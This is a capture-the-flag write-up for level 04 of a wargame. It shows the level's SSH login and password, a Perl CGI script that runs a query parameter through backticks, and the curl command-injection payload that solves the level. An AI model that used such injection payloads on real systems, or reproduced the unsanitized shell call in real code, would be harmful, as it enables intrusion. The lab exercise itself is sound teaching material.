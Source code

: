 # 04 

Login

> ssh level04@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: qi0maab88jeaj46qoumi7maus

We have a script and maybe it interacts w/ a webpage:

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
  # CGI (Common Gateway Interface)
  # param: a CGI module func fetches params from HTTP requests
  # qw: quote words
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
  # sub -- define subroutine x
  # $_[0] -- subroutine `x()` takes a single arg`
  # print w/ backticks invokes a shell command
  # 2>&1 -- combine stdout and stderr, & means 1 is a fd not a filename
}
x(param("x"));
  # 1st `x` : calling the subroutine
  # 2nd `x` : a query param
  # x comes in form of "...?x=getflag"
```

Solution

```b
> nc -vz localhost 4747
      ^ v: verbose, z: scan if a port is open (scanning listening daemons)
Connection to localhost 4747 port [tcp/*] succeeded!

> curl localhost:4747/?x="\`/bin/getflag\`"
```
